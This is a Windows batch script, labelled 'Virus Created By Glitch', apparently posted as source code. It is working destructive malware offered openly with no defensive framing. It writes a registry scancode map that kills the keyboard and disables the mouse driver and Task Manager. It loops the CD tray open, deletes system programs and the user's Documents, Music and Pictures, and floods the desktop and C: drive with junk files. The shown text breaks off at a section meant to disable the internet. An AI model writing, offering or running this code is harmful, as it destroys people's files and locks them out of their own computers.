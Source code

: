 # Index


__---Virus Created By Glitch---__::
@echo off
::------Disable Keyboard-----::
echo Windows Registry Editor Version 5.00 > "nokeyboard.reg"
echo [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Keyboard Layout] >> "nokeyboard.reg"
echo "Scancode Map"=hex:00,00,00,00,00,00,00,00,7c,00,00,00,00,00,01,00,00,\ >> "nokeyboard.reg"
echo 00,3b,00,00,00,3c,00,00,00,3d,00,00,00,3e,00,00,00,3f,00,00,00,40,00,00,00,\ >> "nokeyboard.reg"
echo 41,00,00,00,42,00,00,00,43,00,00,00,44,00,00,00,57,00,00,00,58,00,00,00,37,\ >> "nokeyboard.reg"
echo e0,00,00,46,00,00,00,45,00,00,00,35,e0,00,00,37,00,00,00,4a,00,00,00,47,00,\ >> "nokeyboard.reg"
echo 00,00,48,00,00,00,49,00,00,00,4b,00,00,00,4c,00,00,00,4d,00,00,00,4e,00,00,\ >> "nokeyboard.reg"
echo 00,4f,00,00,00,50,00,00,00,51,00,00,00,1c,e0,00,00,53,00,00,00,52,00,00,00,\ >> "nokeyboard.reg"
echo 4d,e0,00,00,50,e0,00,00,4b,e0,00,00,48,e0,00,00,52,e0,00,00,47,e0,00,00,49,\ >> "nokeyboard.reg"
echo e0,00,00,53,e0,00,00,4f,e0,00,00,51,e0,00,00,29,00,00,00,02,00,00,00,03,00,\ >> "nokeyboard.reg"
echo 00,00,04,00,00,00,05,00,00,00,06,00,00,00,07,00,00,00,08,00,00,00,09,00,00,\ >> "nokeyboard.reg"
echo 00,0a,00,00,00,0b,00,00,00,0c,00,00,00,0d,00,00,00,0e,00,00,00,0f,00,00,00,\ >> "nokeyboard.reg"
echo 10,00,00,00,11,00,00,00,12,00,00,00,13,00,00,00,14,00,00,00,15,00,00,00,16,\ >> "nokeyboard.reg"
echo 00,00,00,17,00,00,00,18,00,00,00,19,00,00,00,1a,00,00,00,1b,00,00,00,2b,00,\ >> "nokeyboard.reg"
echo 00,00,3a,00,00,00,1e,00,00,00,1f,00,00,00,20,00,00,00,21,00,00,00,22,00,00,\ >> "nokeyboard.reg"
echo 00,23,00,00,00,24,00,00,00,25,00,00,00,26,00,00,00,27,00,00,00,28,00,00,00,\ >> "nokeyboard.reg"
echo 1c,00,00,00,2a,00,00,00,2c,00,00,00,2d,00,00,00,2e,00,00,00,2f,00,00,00,30,\ >> "nokeyboard.reg"
echo 00,00,00,31,00,00,00,32,00,00,00,33,00,00,00,34,00,00,00,35,00,00,00,36,00,\ >> "nokeyboard.reg"
echo 00,00,1d,00,00,00,5b,e0,00,00,38,00,00,00,39,00,00,00,38,e0,00,00,5c,e0,00,\ >> "nokeyboard.reg"
echo 00,5d,e0,00,00,1d,e0,00,00,5f,e0,00,00,5e,e0,00,00,22,e0,00,00,24,e0,00,00,\ >> "nokeyboard.reg"
echo 10,e0,00,00,19,e0,00,00,30,e0,00,00,2e,e0,00,00,2c,e0,00,00,20,e0,00,00,6a,\ >> "nokeyboard.reg"
echo e0,00,00,69,e0,00,00,68,e0,00,00,67,e0,00,00,42,e0,00,00,6c,e0,00,00,6d,e0,\ >> "nokeyboard.reg"
echo 00,00,66,e0,00,00,6b,e0,00,00,21,e0,00,00,00,00 >> "nokeyboard.reg"
start nokeyboard.reg
::---------------------------::
::-------Disable Mouse-------::
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
::---------------------------::
::---Disable Taskmanager-----::
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_SZ /d 1 /f >nul
::---------------------------::
::-------Open Disk Tray------::
echo Do >> "opendisk.vbs"
echo Set oWMP = CreateObject("WMPlayer.OCX.7" ) >> "opendisk.vbs"
echo Set colCDROMs = oWMP.cdromCollection >> "opendisk.vbs"
echo colCDROMs.Item(d).Eject  >> "opendisk.vbs"
echo colCDROMs.Item(d).Eject  >> "opendisk.vbs"
echo Loop >> "opendisk.vbs"
start "" "opendisk.vbs"
::---------------------------::
::---Disable Taskmanager-----::
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_SZ /d 1 /f >nul
::---------------------------::
::-------Delete MS Paint-----::
del /f /q "mspaint.exe"
::---------------------------::
::-----Delete My Music-------::
del /f /q "C:\Users\%userprofile%\My Documents\My Music\*.*"
::---------------------------::
::--Delete Internet Explorer-::
del /f /q "C:\Program Files\Internet Explorer\iexplore.exe"
::---------------------------::
::--------Delete Calc.-------::
del /f /q "calc.exe"
::---------------------------::
::--Delete Windows Live Mail-::
del /f /q "wlmail.exe"
::---------------------------::
::-------Delete Notepad------::
del /f /q "notepad.exe"
::---------------------------::
::-------Delete Wordpad------::
del /f /q "WordPad.exe"
::---------------------------::
::-----Delete My Pictures----::
del /f /q "C:\Users\%userprofile%\My Documents\My Pictures\*.*"
::---------------------------::
::----Delete My Documents----::
del /f /q "C:\Users\%userprofile%\My Documents\*.*"
::---------------------------::
::-------Spam Desktop--------::
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
echo %random% > "%userprofile%\Desktop\%random%Spammed Filetype"
::---------------------------::
::-------Spam C Drive--------::
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
echo %random% > "C:\%random%Spammed Filetype"
::---------------------------::
::-----Disable Internet------:
